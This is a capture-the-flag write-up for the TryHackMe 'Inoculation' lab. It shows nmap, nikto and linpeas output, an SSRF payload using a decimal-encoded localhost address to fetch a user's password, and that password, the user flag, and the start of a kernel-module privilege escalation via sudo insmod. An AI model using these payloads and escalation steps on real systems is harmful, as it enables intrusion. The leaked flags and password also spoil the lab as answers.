




# Inoculation

Designed to introduce less common concepts

[Inoculation](https://tryhackme.com/room/inoculation)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Misconfigured Binaries
- Kernal Exploitation

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Obtain root

Want a challenge? Here you go...

```
kali@kali:~/CTFs/tryhackme/Inoculation$ sudo nmap -A -sC -sV -p- -O --script vuln 10.10.153.127
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 19:30 CEST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.153.127
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| vulners:
|   cpe:/a:openbsd:openssh:7.2p2:
|       CVE-2008-3844   9.3     https://vulners.com/cve/CVE-2008-3844
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       CVE-2016-10010  6.9     https://vulners.com/cve/CVE-2016-10010
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       CVE-2016-10708  5.0     https://vulners.com/cve/CVE-2016-10708
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2016-6210   4.3     https://vulners.com/cve/CVE-2016-6210
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2014-9278   4.0     https://vulners.com/cve/CVE-2014-9278
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|_      CVE-2016-10011  2.1     https://vulners.com/cve/CVE-2016-10011
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.153.127
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.153.127:80/
|     Form id: hook
|_    Form action: testhook.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-sql-injection:
|   Possible sqli for queries:
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/js/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=S%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/fonts/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/fonts/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/fonts/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/fonts/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/images/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/images/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/images/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/images/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.153.127:80/assets/?C=M%3bO%3dD%27%20OR%20sqlspider
|_    http://10.10.153.127:80/assets/?C=D%3bO%3dA%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners:
|   Apache httpd 2.4.18:
|       HTTPD:F564BBA32AA088833DA032B7EB77CA29  7.5     https://vulners.com/httpd/HTTPD:F564BBA32AA088833DA032B7EB77CA29
|       HTTPD:E74D6161229FA3D00A1783E6C3426C5D  7.5     https://vulners.com/httpd/HTTPD:E74D6161229FA3D00A1783E6C3426C5D
|       HTTPD:C7D2DA1ACB016A5220CA8E74647BED26  7.5     https://vulners.com/httpd/HTTPD:C7D2DA1ACB016A5220CA8E74647BED26
|       HTTPD:8F00FB1DD7567228376803FEDB0EC3B6  7.5     https://vulners.com/httpd/HTTPD:8F00FB1DD7567228376803FEDB0EC3B6
|       HTTPD:7EEE138FD834328B3FC98E4B7FCAD266  7.5     https://vulners.com/httpd/HTTPD:7EEE138FD834328B3FC98E4B7FCAD266
|       HTTPD:24E96D438275A8177C289509C796525C  7.5     https://vulners.com/httpd/HTTPD:24E96D438275A8177C289509C796525C
|       HTTPD:237FAB5DE739A612077A245192137A48  7.5     https://vulners.com/httpd/HTTPD:237FAB5DE739A612077A245192137A48
|       HTTPD:143F3A43D871E3AFFF956DB1049A6A2A  7.5     https://vulners.com/httpd/HTTPD:143F3A43D871E3AFFF956DB1049A6A2A
|       HTTPD:0C6EE30D77005EBF2B39E351B1F3E2C4  7.5     https://vulners.com/httpd/HTTPD:0C6EE30D77005EBF2B39E351B1F3E2C4
|       HTTPD:FC354B921BA807DFCACD7CD3C1D02FF9  7.2     https://vulners.com/httpd/HTTPD:FC354B921BA807DFCACD7CD3C1D02FF9
|       HTTPD:9CDB89FBD1162B1E462FDF5BEA375759  6.8     https://vulners.com/httpd/HTTPD:9CDB89FBD1162B1E462FDF5BEA375759
|       HTTPD:13B5FCC9676077F8FD08063C83511140  6.8     https://vulners.com/httpd/HTTPD:13B5FCC9676077F8FD08063C83511140
|       HTTPD:B057D0A07B0AC97248CE6210E08ACAF7  6.4     https://vulners.com/httpd/HTTPD:B057D0A07B0AC97248CE6210E08ACAF7
|       HTTPD:99188FFDCAF9C4932D00C218A2E58EC7  6.4     https://vulners.com/httpd/HTTPD:99188FFDCAF9C4932D00C218A2E58EC7
|       HTTPD:531CF2A74E1A5A02A1D6AE2505AD586F  6.4     https://vulners.com/httpd/HTTPD:531CF2A74E1A5A02A1D6AE2505AD586F
|       HTTPD:1696C4DDCBC58CE20005FCB002958C09  6.0     https://vulners.com/httpd/HTTPD:1696C4DDCBC58CE20005FCB002958C09
|       HTTPD:BC81F521379C9038153151EAA84492CA  5.8     https://vulners.com/httpd/HTTPD:BC81F521379C9038153151EAA84492CA
|       HTTPD:01BB9C701A4D4302EF59FA7EA89D9115  5.8     https://vulners.com/httpd/HTTPD:01BB9C701A4D4302EF59FA7EA89D9115
|       HTTPD:F292DF1CEE1729E4240D1D62A10F5D32  5.1     https://vulners.com/httpd/HTTPD:F292DF1CEE1729E4240D1D62A10F5D32
|       HTTPD:CE14FA5A5B1A2BE3A35EA809C9D8CFF7  5.1     https://vulners.com/httpd/HTTPD:CE14FA5A5B1A2BE3A35EA809C9D8CFF7
|       HTTPD:79096CA36FAE041205EFAB66A6D4EF4B  5.1     https://vulners.com/httpd/HTTPD:79096CA36FAE041205EFAB66A6D4EF4B
|       HTTPD:E91F31FD116386F2922B3EDA4BE3899B  5.0     https://vulners.com/httpd/HTTPD:E91F31FD116386F2922B3EDA4BE3899B
|       HTTPD:E05CACB9D575871BA1E3088D02930266  5.0     https://vulners.com/httpd/HTTPD:E05CACB9D575871BA1E3088D02930266
|       HTTPD:D7BF4648C333C0F770A30DEB0A23601C  5.0     https://vulners.com/httpd/HTTPD:D7BF4648C333C0F770A30DEB0A23601C
|       HTTPD:D5609C15618DCADFDAD5AD396F2B83D7  5.0     https://vulners.com/httpd/HTTPD:D5609C15618DCADFDAD5AD396F2B83D7
|       HTTPD:D5091608B1DC5DB5CABE405261B7658E  5.0     https://vulners.com/httpd/HTTPD:D5091608B1DC5DB5CABE405261B7658E
|       HTTPD:D26626D944F16D90B877FB157E4A128F  5.0     https://vulners.com/httpd/HTTPD:D26626D944F16D90B877FB157E4A128F
|       HTTPD:D0D55654F7429E8A4965CBBE30779CD6  5.0     https://vulners.com/httpd/HTTPD:D0D55654F7429E8A4965CBBE30779CD6
|       HTTPD:C191D6FAD0C97D0A2E0A2A9F7BFE6B38  5.0     https://vulners.com/httpd/HTTPD:C191D6FAD0C97D0A2E0A2A9F7BFE6B38
|       HTTPD:BD5F2FE0FF24D28F3450C11422A68AC8  5.0     https://vulners.com/httpd/HTTPD:BD5F2FE0FF24D28F3450C11422A68AC8
|       HTTPD:B2B68FFCE0FB45D09BE91EE9ECBA07F6  5.0     https://vulners.com/httpd/HTTPD:B2B68FFCE0FB45D09BE91EE9ECBA07F6
|       HTTPD:A5459AF02C9EC35CE80EA173C36C3F47  5.0     https://vulners.com/httpd/HTTPD:A5459AF02C9EC35CE80EA173C36C3F47
|       HTTPD:99477914E1BE8FA85CEA0E956232C4C2  5.0     https://vulners.com/httpd/HTTPD:99477914E1BE8FA85CEA0E956232C4C2
|       HTTPD:824D39D8A30F1234C966CBDA41E1C446  5.0     https://vulners.com/httpd/HTTPD:824D39D8A30F1234C966CBDA41E1C446
|       HTTPD:73656ED41609146303D488C86337BC2D  5.0     https://vulners.com/httpd/HTTPD:73656ED41609146303D488C86337BC2D
|       HTTPD:6CAC4F8B58BB2BE168795A6BA0CA26A1  5.0     https://vulners.com/httpd/HTTPD:6CAC4F8B58BB2BE168795A6BA0CA26A1
|       HTTPD:5D6E315A1B98558C0DF8CBE51264FBA5  5.0     https://vulners.com/httpd/HTTPD:5D6E315A1B98558C0DF8CBE51264FBA5
|       HTTPD:4EC9662496A151DDE6D030D9127572E7  5.0     https://vulners.com/httpd/HTTPD:4EC9662496A151DDE6D030D9127572E7
|       HTTPD:42FA2547862AB3B3F5E7F776E2D90614  5.0     https://vulners.com/httpd/HTTPD:42FA2547862AB3B3F5E7F776E2D90614
|       HTTPD:3647863A8E4AE972669D5EE60974E777  5.0     https://vulners.com/httpd/HTTPD:3647863A8E4AE972669D5EE60974E777
|       HTTPD:18105DABC6D0ADE97D12B90F63EAE025  5.0     https://vulners.com/httpd/HTTPD:18105DABC6D0ADE97D12B90F63EAE025
|       HTTPD:174A0D44882BCA7E2F229BC91D6D5A09  5.0     https://vulners.com/httpd/HTTPD:174A0D44882BCA7E2F229BC91D6D5A09
|       HTTPD:04C30566E99EFB3C0D60F08EE2524591  5.0     https://vulners.com/httpd/HTTPD:04C30566E99EFB3C0D60F08EE2524591
|       HTTPD:FF57290724543D4766EDDC4666992FE8  4.3     https://vulners.com/httpd/HTTPD:FF57290724543D4766EDDC4666992FE8
|       HTTPD:F4FBBB7467F08F96828B98E753E5FE7D  4.3     https://vulners.com/httpd/HTTPD:F4FBBB7467F08F96828B98E753E5FE7D
|       HTTPD:D94ACD37B5627A621B2D592BD44873F2  4.3     https://vulners.com/httpd/HTTPD:D94ACD37B5627A621B2D592BD44873F2
|       HTTPD:D26FFC4C8AA598C5F130A0223836644E  4.3     https://vulners.com/httpd/HTTPD:D26FFC4C8AA598C5F130A0223836644E
|       HTTPD:A5773ECB3CB67826707B252F21BB80BB  4.3     https://vulners.com/httpd/HTTPD:A5773ECB3CB67826707B252F21BB80BB
|       HTTPD:86C509FC37A85DC3C01E3CE10402C6DC  4.3     https://vulners.com/httpd/HTTPD:86C509FC37A85DC3C01E3CE10402C6DC
|       HTTPD:714A18409AEB3B8362DC4FA2B923CA7A  4.3     https://vulners.com/httpd/HTTPD:714A18409AEB3B8362DC4FA2B923CA7A
|       HTTPD:43E63F90DCA6F418ACF2327C4F88C3D8  4.3     https://vulners.com/httpd/HTTPD:43E63F90DCA6F418ACF2327C4F88C3D8
|       HTTPD:2E568217BC35E0AA91DF49E7CE65CA67  3.5     https://vulners.com/httpd/HTTPD:2E568217BC35E0AA91DF49E7CE65CA67
|       HTTPD:B6CF5630624F83951A477D36DC8FD634  0.0     https://vulners.com/httpd/HTTPD:B6CF5630624F83951A477D36DC8FD634
|       HTTPD:94C27BCF50CA81A222019B9F06735AA1  0.0     https://vulners.com/httpd/HTTPD:94C27BCF50CA81A222019B9F06735AA1
|       HTTPD:914D0BB6DF64CDA58BDF1461563DCBC2  0.0     https://vulners.com/httpd/HTTPD:914D0BB6DF64CDA58BDF1461563DCBC2
|       HTTPD:7ED2E94FC8175AF57B0B84C966E78986  0.0     https://vulners.com/httpd/HTTPD:7ED2E94FC8175AF57B0B84C966E78986
|       HTTPD:55F8C86BB4FE80544B301C6F772E1F21  0.0     https://vulners.com/httpd/HTTPD:55F8C86BB4FE80544B301C6F772E1F21
|       HTTPD:53F7D531D201D0209EE31F3FA8829F5B  0.0     https://vulners.com/httpd/HTTPD:53F7D531D201D0209EE31F3FA8829F5B
|_      HTTPD:21A860C56B7B6A55960FB17E72B7E4B4  0.0     https://vulners.com/httpd/HTTPD:21A860C56B7B6A55960FB17E72B7E4B4
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/5%OT=22%CT=1%CU=42760%PV=Y%DS=2%DC=T%G=Y%TM=5F7B59D
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=100%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   34.94 ms 10.8.0.1
2   35.17 ms 10.10.153.127

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 404.17 seconds
```

- [http://10.10.153.127/](http://10.10.153.127/)
- [http://10.10.153.127/testhook.php](http://10.10.153.127/testhook.php)

```
kali@kali:~/CTFs/tryhackme/Inoculation$ nikto -h 10.10.153.127- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.153.127
+ Target Hostname:    10.10.153.127
+ Target Port:        80
+ Start Time:         2020-10-05 19:39:50 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 430, size: 5916605783d6d, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7890 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-10-05 19:45:56 (GMT2) (366 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```




- [Going from 127.0.0.1 to 2130706433, and back again](https://stackoverflow.com/questions/2241229/going-from-127-0-0-1-to-2130706433-and-back-again)

`handler=http%3A%2F%2F2130706433%3A§`





`http://127.0.0.1:9999/pass4maynard.txt`

Username: `maynard`



`Here is your password: Js&S_uFJgg~YM4_g\n`

`Js&S_uFJgg~YM4_g`

1. User Flag?

```
kali@kali:~/CTFs/tryhackme/Inoculation$ ssh maynard@10.10.153.127
The authenticity of host '10.10.153.127 (10.10.153.127)' can't be established.
ECDSA key fingerprint is SHA256:uvVRz1YTEzN+fnnk2hDshR+Pl18TZzbGGRIH6dRtdL8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.153.127' (ECDSA) to the list of known hosts.
maynard@10.10.153.127's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic x86_64)
```

```
maynard@inoculation:~$ ls
user.txt
maynard@inoculation:~$ cat user.txt
e7cdb6964dd72a0ef9a934e111d3ed65
maynard@inoculation:~$
```

`e7cdb6964dd72a0ef9a934e111d3ed65`

2. Root Flag?

```
[+] Searching ssl/ssh files
Port 22
PermitRootLogin yes
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/maynard/.config/lxc/client.key
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow

====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
/usr/bin/chfn  --->  SuSE_9.3/10
/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
/usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
/usr/bin/newgrp  --->  HP-UX_10.20
/usr/bin/sudo  --->  /sudo$
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/bin/umount  --->  BSD/Linux(08-1996)
/bin/ping6
/bin/su
/bin/fusermount
/bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
/bin/ping

[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv, Dockerfile, docker-compose.yml
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2188 Aug 31  2015 /etc/bash.bashrc
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile
./linpeas.sh: 2490: [: /etc/systemd/system/timers.target.wants/snapd.snap-repair.timer: unexpected operator
-rw-r--r-- 1 maynard maynard 3771 Aug 31  2019 /home/maynard/.bashrc
./linpeas.sh: 2490: [: /home/maynard/.profile: unexpected operator
-rw-r--r-- 1 root root 3106 Oct 22  2015 /usr/share/base-files/dot.bashrc
-rw-r--r-- 1 root root 3161 Apr 14  2016 /usr/share/byobu/profiles/bashrc
-rw-r--r-- 1 root root 870 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc
-rw-r--r-- 1 root root 1865 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc
```

```
maynard@inoculation:~$ sudo -l
sudo: unable to resolve host inoculation
Matching Defaults entries for maynard on inoculation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maynard may run the following commands on inoculation:
    (ALL) NOPASSWD: /sbin/insmod
    (ALL) NOPASSWD: /sbin/rmmod
maynard@inoculation:~$
```

- [ntfs-3g (Debian 9) - Local Privilege Escalation](https://www.exploit-db.com/exploits/41240)

```sh
obj-m += cve_2017_0358.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

```sh
obj-m += cve_2017_0358.o

